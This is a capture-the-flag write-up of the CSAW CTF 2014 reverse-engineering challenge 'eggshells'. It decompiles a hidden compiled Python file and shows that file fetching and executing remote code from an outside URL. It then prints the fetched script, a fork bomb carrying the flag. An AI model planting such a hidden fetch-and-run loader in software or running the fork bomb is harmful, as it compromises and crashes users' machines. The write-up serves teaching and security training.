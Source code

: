 # CSAW CTF 2014: eggshells

**Category:** Reverse Engineering
**Points:** 100
**Description:**

> I trust people on the internet all the time, do you?
>
> Written by ColdHeat
>
> [eggshells-master.zip](eggshells-master.zip)

## Write-up

Let’s unzip [the provided zip file](eggshells-master.zip):

```bash
$ unzip eggshells-master.zip
```

This creates a directory `eggshells-master` that contains a bunch of Python files. One compiled Python file, `utils.pyc`, stands out. Let’s decompile it using [`uncompyle2`](https://github.com/wibiti/uncompyle2):

```bash
$ uncompyle2 utils.pyc
# 2014.09.22 10:53:48 CEST
#Embedded file name: /Users/kchung/Desktop/CSAW Quals 2014/rev100/utils.py
exec __import__('urllib2').urlopen('http://kchung.co/lol.py').read()
+++ okay decompyling utils.pyc
# decompiled 1 files: 1 okay, 0 failed, 0 verify failed
# 2014.09.22 10:53:48 CEST
```

That URL looks interesting.

```bash
$ curl 'http://kchung.co/lol.py'
import os
while True:
    try:
        os.fork()
    except:
        os.system('start')
# flag{trust_is_risky}
```

The flag is `trust_is_risky`.

## Other write-ups and resources

* <http://www.mrt-prodz.com/blog/view/2014/09/csaw-ctf-quals-2014---eggshells-100pts-writeup>
* <http://bt3gl.github.io/csaw-ctf-2014-reverse-engineering-100-eggshells.html>
